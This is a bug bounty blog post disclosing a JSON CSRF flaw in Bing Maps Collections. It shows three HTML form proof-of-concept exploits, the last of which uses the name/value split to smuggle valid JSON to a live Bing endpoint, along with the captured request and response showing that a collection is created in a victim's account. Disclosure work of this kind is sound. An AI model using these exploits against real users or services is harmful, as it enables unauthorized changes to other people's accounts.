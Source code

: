 ```yaml
---
title: "JSON CSRF in Microsoft Bing Maps Collections"
author: "Jayateertha Guruprasad"
date: 2024-02-09T06:55:51.275Z
lastmod: 2024-08-31T13:12:44+05:30

description: ""

subtitle: ""

image: "/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_0.png" 
images:
 - "/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_0.png"
 - "/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_1.png"
 - "/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_2.png"
 - "/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_3.png"
 - "/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_4.png"
 - "/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_5.png"


aliases:
- "/json-csrf-in-microsoft-bing-maps-collections-74afc2b197d5"

---
```


Bing Maps allows users to create a collection and add places to those collections as shown below.

![](/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_0.png#layoutTextWidth)

The request & response to create a collection is as follows —

![](/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_1.png#layoutTextWidth)

You can notice that, there are **no CSRF tokens** present in the request, also notice that the Method & the Content-Type are **POST** & **text/plain** respectively. As this is a [simple](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests) HTTP request, we are saved from preflight request & CORS checks.

> Okay, so let’s craft the exploit it should be a easy one without any difficulties right ?

**Let’s check the below Exploit 1 and capture in Burp** —

{{< highlight html >}}

<html>

<body>
    <form method="POST" action="https://www.bing.com/CloudGraph/Collection/v1" enctype="text/plain">
        <input type="hidden" name='' value='{"RequestType":5,"RequestOrigin":"BingMapsVertical","SchemaVersion":"1.0","ClientETag":"0","CollectionToBeWritten":{"$type":"GeoAnnotationsCollection","Name":"Test Collection","Description":"Test Description","CanShare":false,"Items":[],"AlwaysShowPOI":true,"CopyAllowed":true,"DisplayOrder":1,"DateCreated":638421423185170000,"DateModified":638421423185170000,"DateAccessed":638421423185170000,"Properties":{"ImageUrls":"[]"},"CollectionId":"0","ItemsCount":0}}'/>
        <input type="submit" value="Submit"> </form>
</body>
<html>
{{< /highlight >}}

![](/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_2.png#layoutTextWidth)

You can notice that **when name attribute of input element is empty, browser won’t send any params even if value attribute has some value**, Why did I keep name param empty in the first place ? -> if name="a", for example browser would send param like  ->  **a={"RequestType":5,"RequestOrigin":"BingMapsVertical","SchemaVersion":"1.0","ClientETag":"0","CollectionToBeWritten":{"$type":"GeoAnnotationsCollection","Name":"Test Collection","Description":"Test Description","CanShare":false,"Items":[],"AlwaysShowPOI":true,"CopyAllowed":true,"DisplayOrder":1,"DateCreated":638421423185170000,"DateModified":638421423185170000,"DateAccessed":638421423185170000,"Properties":{"ImageUrls":"[]"},"CollectionId":"0","ItemsCount":0}}**, which is a invalid JSON.

> **Okay, now what if we keep name attribute of input element as JSON body & leave value attribute empty, let’s try that now as our Exploit 2**

{{< highlight html >}}
<html>
<body>
    <form method="POST" action="https://www.bing.com/CloudGraph/Collection/v1" enctype="text/plain">
        <input type="hidden" name='{"RequestType":5,"RequestOrigin":"BingMapsVertical","SchemaVersion":"1.0","ClientETag":"0","CollectionToBeWritten":{"$type":"GeoAnnotationsCollection","Name":"Test Collection","Description":"Test Description","CanShare":false,"Items":[],"AlwaysShowPOI":true,"CopyAllowed":true,"DisplayOrder":1,"DateCreated":638421423185170000,"DateModified":638421423185170000,"DateAccessed":638421423185170000,"Properties":{"ImageUrls":"[]"},"CollectionId":"0","ItemsCount":0}}'value='' />
        <input type="submit" value="Submit"> </form>
</body>
<html>
{{< /highlight >}}

![](/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_3.png#layoutTextWidth)

Now, we see that we partially succeeded, we are able to send a JSON request in body, but why did it fail ?

Take a closer look at Exploit 2 request, **even though we left value as empty in input element of our exploit, "=" is appended to the JSON body automatically by the browser**. The **backend** when it tries to parse the JSON would see "=" in the end of JSON and **fail to parse the improper JSON giving BAD REQUEST** as the status.

**So, as the params are sent in JSON, We can’t Exploit ?
What if the server is not validating JSON input structure correctly, does it accept additional params like {"foo":"test"} ?**

> **Let’s try to craft Exploit 3, assuming the server is not validating JSON structure properly —**

{{< highlight bash>}}
<html>
    <body>
        <form method="POST" action="https://www.bing.com/CloudGraph/Collection/v1" enctype="text/plain">
            <input type="hidden" name='{"RequestType":5,"RequestOrigin":"BingMapsVertical","SchemaVersion":"1.0","ClientETag":"0","CollectionToBeWritten":{"$type":"GeoAnnotationsCollection","Name":"test csrf","Description":"test","CanShare":false,"Items":[],"AlwaysShowPOI":true,"CopyAllowed":true,"DisplayOrder":1,"DateCreated":638385168551730000,"DateModified":638385168551730000,"DateAccessed":638385168551730000,"Properties":{"ImageUrls":"[]"},"CollectionId":"0","ItemsCount":0},"foo' value='":"test"}'/>
            <input type="submit" value="Submit">
        </form>
    </body>
<html>
{{< /highlight >}}

{{< highlight bash>}}
name='{"RequestType":5,"RequestOrigin":"BingMapsVertical","SchemaVersion":"1.0","ClientETag":"0","CollectionToBeWritten":{"$type":"GeoAnnotationsCollection","Name":"test csrf","Description":"test","CanShare":false,"Items":[],"AlwaysShowPOI":true,"CopyAllowed":true,"DisplayOrder":1,"DateCreated":638385168551730000,"DateModified":638385168551730000,"DateAccessed":638385168551730000,"Properties":{"ImageUrls":"[]"},"CollectionId":"0","ItemsCount":0},"foo' value='":"test"}'
{{< /highlight >}}

Notice that, we have appended a new param **,"foo** in the name attribute, & value attribute has **":test"}**. So, that when request goes it will act as if new param has been added like — {**ACTUAL_JSON,"foo=":"test"**} ,We have added **}** in the value because we didn’t close the **{** in the name attribute.


**Now, the actual request when viewed through BURP would look like —**

{{< highlight bash>}}
POST /CloudGraph/Collection/v1 HTTP/2
Host: www.bing.com
Cookie: AUTHENTICATED_COOKIE
Content-Length: 460
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Full-Version: ""
Sec-Ch-Ua-Arch: ""
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Platform-Version: ""
Sec-Ch-Ua-Model: ""
Sec-Ch-Ua-Bitness: ""
Sec-Ch-Ua-Full-Version-List: 
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: text/plain
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

{"RequestType":5,"RequestOrigin":"BingMapsVertical","SchemaVersion":"1.0","ClientETag":"0","CollectionToBeWritten":{"$type":"GeoAnnotationsCollection","Name":"test csrf","Description":"test","CanShare":false,"Items":[],"AlwaysShowPOI":true,"CopyAllowed":true,"DisplayOrder":1,"DateCreated":638385168551730000,"DateModified":638385168551730000,"DateAccessed":638385168551730000,"Properties":{"ImageUrls":"[]"},"CollectionId":"0","ItemsCount":0},"foo=":"test"}
{{< /highlight >}}

**Giving the 200 OK response when victim opens our exploit, indicating that the collection has been successfully created in the victim account—**

{{< highlight bash>}}
HTTP/2 200 OK
Cache-Control: private
Content-Length: 274
Content-Type: application/json; charset=utf-8
Vary: Accept-Encoding
P3p: CP="NON UNI COM NAV STA LOC CURa DEVa PSAa PSDa OUR IND"
X-Eventid: 65b79255c9824d80b9f694349ad862a8
Accept-Ch: Sec-CH-UA-Bitness, Sec-CH-UA-Arch, Sec-CH-UA-Full-Version, Sec-CH-UA-Mobile, Sec-CH-UA-Model, Sec-CH-UA-Platform-Version, Sec-CH-UA-Full-Version-List, Sec-CH-UA-Platform, Sec-CH-UA, UA-Bitness, UA-Arch, UA-Full-Version, UA-Mobile, UA-Model, UA-Platform-Version, UA-Platform, UA
Useragentreductionoptout: A7kgTC5xdZ2WIVGZEfb1hUoNuvjzOZX3VIV/BA6C18kQOOF50Q0D3oWoAm49k3BQImkujKILc7JmPysWk3CSjwUAAACMeyJvcmlnaW4iOiJodHRwczovL3d3dy5iaW5nLmNvbTo0NDMiLCJmZWF0dXJlIjoiU2VuZEZ1bGxVc2VyQWdlbnRBZnRlclJlZHVjdGlvbiIsImV4cGlyeSI6MTY4NDg4NjM5OSwiaXNTdWJkb21haW4iOnRydWUsImlzVGhpcmRQYXJ0eSI6dHJ1ZX0=
Content-Security-Policy-Report-Only: script-src https: 'strict-dynamic' 'report-sample' 'nonce-cNS9LxynUR+ClL2pzP3fsJULF3t3qVcaKz09Ble/4/8='; base-uri 'self';report-to csp-endpoint
Report-To: {"group":"csp-endpoint","max_age":86400,"endpoints":[{"url":"https://aefd.nelreports.net/api/report?cat=bingcsp"}]}
X-Msedge-Ref: Ref A: 6FDA68B62C674CEBAD67BE5815BEDA5F Ref B: MAA02EDGE0311 Ref C: 2024-01-29T11:56:05Z
Date: Mon, 29 Jan 2024 11:56:06 GMT
Set-Cookie: SENSITIVE_COOKIE; expires=Sat, 22-Feb-2025 11:56:05 GMT; path=/; HttpOnly
Set-Cookie: SENSITIVE_COOKIE; domain=.bing.com; expires=Thu, 29-Jan-2026 11:56:05 GMT; path=/; secure; SameSite=None
Alt-Svc: h3=":443"; ma=93600
X-Cdn-Traceid: 0.0e0a2c17.1706529365.7a547e

{"RequestType":5,"CollectionsMetaMap":null,"CollectionsMap":null,"ServerETag":"088ba493-bbe0-e901-0264-160db3476ee0","SchemaVersion":"1.0","ExternalUserId":"4ae96729c1bd14a1","CollectionId":"bda0fff9-5587-456b-91f8-b8e7348d9800","ItemId":null,"ItineraryMetaServerETag":null}
{{< /highlight >}}

![](/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_4.png#layoutTextWidth)

**I also discovered that, I could delete Victim’s collection using a different strategy & reported the video POC to the MSRC team following the usual process highlighting the Impact — Creating/Deleting other users Bing Maps Collections.**

Unfortunately, This was not severe enough for Microsoft for immediate fix and thus not eligible for a bounty 😔.

![](/post/img/2024-02-09_json-csrf-in-microsoft-bing-maps-collections_5.png#layoutTextWidth)

#### **Liked my article ? Follow me on** [**LinkedIn**](https://www.linkedin.com/in/jayateerthag/)**, Twitter (**[**@jayateerthaG**](https://twitter.com/jayateerthag)**), and **[**Medium**](https://jayateerthag.medium.com/)** for more content about bugbounty, Infosec, cybersecurity and hacking.**

* * *
Written on February 9, 2024 by Jayateertha Guruprasad.

Originally published on [Medium](https://medium.com/@jayateerthag/json-csrf-in-microsoft-bing-maps-collections-74afc2b197d5)
